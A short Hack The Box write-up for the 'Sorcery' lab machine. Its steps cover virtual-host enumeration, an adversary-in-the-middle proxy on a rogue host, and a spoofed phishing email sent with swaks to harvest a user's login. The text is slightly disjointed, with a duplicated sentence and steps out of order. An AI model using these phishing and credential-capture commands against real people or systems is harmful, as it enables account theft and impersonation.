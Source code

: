 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

```
10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb
```

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

```
git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git
```

Enumerate virtual hosts with `ffuf`:

```
ffuf -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H "Host: FUZZ.sorcery.htb" -mc 200
```

This reveals [git.sorcery.htb](https://git.sorcery.htb); add it to `/etc/hosts` and create an account on the site, then log in.
This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

```
sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443
```

Send a phishing email to capture credentials:

```
proxychains4 -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"
```

Extract the captured credentials from the proxied session:

```
magick xwd:Xvfb_screen0 credentials.png
open credentials.png
```

*Screenshots omitted.*


